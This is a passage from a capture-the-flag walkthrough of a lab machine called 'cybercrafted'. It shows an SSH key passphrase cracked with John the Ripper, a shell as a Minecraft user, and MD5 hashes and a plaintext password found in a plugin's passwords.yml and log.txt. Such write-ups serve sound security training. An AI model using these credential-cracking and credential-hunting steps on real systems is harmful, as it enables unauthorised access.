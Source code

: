 ```bash
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
creepin2006      (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:08 DONE (2021-11-26 23:28) 0.1148g/s 1646Kp/s 1646Kc/s 1646KC/sa6_123..*7¡Vamos!
Session completed
```

### Shell as xxultimatecreeperxx
We now have shell as `xxultimatecreeperxx` user. The user was part of *Minecraft* group.
```bash
xxultimatecreeperxx@cybercrafted:~$ id
uid=1001(xxultimatecreeperxx) gid=1001(xxultimatecreeperxx) groups=1001(xxultimatecreeperxx),25565(minecraft)
```
We found the minecraft server was running from `/opt/minecraft` directory. The directory also contained a note
```bash
xxultimatecreeperxx@cybercrafted:/opt/minecraft$ cat note.txt 
Just implemented a new plugin within the server so now non-premium Minecraft accounts can game too! :)
- cybercrafted

P.S
Will remove the whitelist soon.
```
According to the note, `Cybercrafted` has added a new plugin to server. Looking at the Plugins, we found 
```bash
xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted/plugins$ ls -la
total 56
drwxr-x--- 3 cybercrafted minecraft  4096 Jun 27 08:25 .
drwxr-x--- 7 cybercrafted minecraft  4096 Jun 27 16:53 ..
drwxr-x--- 2 cybercrafted minecraft  4096 Oct  6 09:59 LoginSystem
-rwxr-x--- 1 cybercrafted minecraft 43514 Jun 27 08:24 LoginSystem_v.2.4.jar
```
Within the *LoginSystem* directory, 
```bash
drwxr-x--- 2 cybercrafted minecraft 4096 Oct  6 09:59 .
drwxr-x--- 3 cybercrafted minecraft 4096 Jun 27 08:25 ..
-rwxr-x--- 1 cybercrafted minecraft  667 Nov 21 14:25 language.yml
-rwxr-x--- 1 cybercrafted minecraft  943 Nov 21 14:25 log.txt
-rwxr-x--- 1 cybercrafted minecraft   90 Jun 27 13:32 passwords.yml
-rwxr-x--- 1 cybercrafted minecraft   25 Nov 21 14:25 settings.yml
```
Password.yml seems interesting. Looking at the content, we found MD5 password hash for two users.
```bash
cybercrafted@cybercrafted:/opt/minecraft/cybercrafted/plugins/LoginSystem$ cat passwords.yml 
cybercrafted: dcbf543ee264e2d3a32c967d663e979e
madrinch: 42f749ade7f9e195bf475f37a44cafcb
```
Cracking it using crackstation, we were only able to crack password for `madrinch`. Looking at other files in directory, we found
```bash
xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted/plugins/LoginSystem$ cat log.txt 

[2021/06/27 11:25:07] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:25:16] cybercrafted registered. PW: JavaEdition>Bedrock
[2021/06/27 11:46:30] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:47:34] cybercrafted logged in. PW: JavaEdition>Bedrock
[2021/06/27 11:52:13] [BUKKIT-SERVER] Startet LoginSystem!
[2021/06/27 11:57:29] [BUKKIT-SERVER] Startet LoginSystem!
```